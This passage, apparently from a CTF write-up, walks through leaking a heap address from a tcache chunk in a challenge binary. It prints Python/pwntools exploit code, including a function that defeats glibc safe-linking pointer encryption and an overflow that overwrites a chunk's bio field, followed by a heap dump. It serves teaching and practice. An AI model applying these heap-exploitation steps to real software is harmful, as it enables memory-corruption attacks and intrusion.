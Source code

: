 Then let's get a heap leak, we request back from the tcache the 8-th chunk, we free the `9`-th chunk that is allocated right after the `8`-th to be able to leak its next free pointer same way as for the libc previously. Plus we have to defeat safe-linking. To understand the defeat of safe-linking I advice you to read [this](https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation). It ends up to the `decrypt_pointer` function that makes use of known parts of the encrypted `fp` to decrypt the whole pointer. I didn't code the function by myself, too lazy for that, code comes from the [AeroCTF heap-2022 writeup](https://github.com/AeroCTF/aero-ctf-2022/blob/main/tasks/pwn/heap-2022/solution/sploit.py#L44).
```py
def decrypt_pointer(leak: int) -> int:
    parts = []

    parts.append((leak >> 36) << 36)
    parts.append((((leak >> 24) & 0xFFF) ^ (parts[0] >> 36)) << 24)
    parts.append((((leak >> 12) & 0xFFF) ^ ((parts[1] >> 24) & 0xFFF)) << 12)

    return parts[0] | parts[1] | parts[2]

add(11, 1032, b"", b"", b"", 1337, b"")

delete(9)
edit(11, b"", b"", b"", 1337, b"X"*(1032 - 64 + 7))

show(11)
io.recvuntil(b"X"*(1032 - 64 + 7) + b"\n")
heap = decrypt_pointer(pwn.u64(io.recvuntil(b"1 Add\n")[:-6].ljust(8, b"\x00"))) - 0x1000
pwn.log.info(f"heap: {hex(heap)}")

# Heap state

"""
0x13f6310	0x0000000000000000	0x0000000000000411	................ [chunk8]
0x13f6320	0x00000000013f4c0a	0x000000000000000a	.L?.............
0x13f6330	0x000000000000000a	0x0000000000000539	........9.......
0x13f6340	0x0000000000000000	0x0000000000000000	................
0x13f6350	0x0000000000000000	0x0000000000000000	................
0x13f6360	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX [chun8->bio]
0x13f6370	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6380	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6390	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f63a0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f63b0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f63c0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f63d0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f63e0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f63f0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6400	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6410	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6420	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6430	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6440	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6450	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6460	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6470	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6480	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6490	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f64a0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f64b0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f64c0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f64d0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f64e0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f64f0	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6500	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
0x13f6510	0x5858585858585858	0x5858585858585858	XXXXXXXXXXXXXXXX
```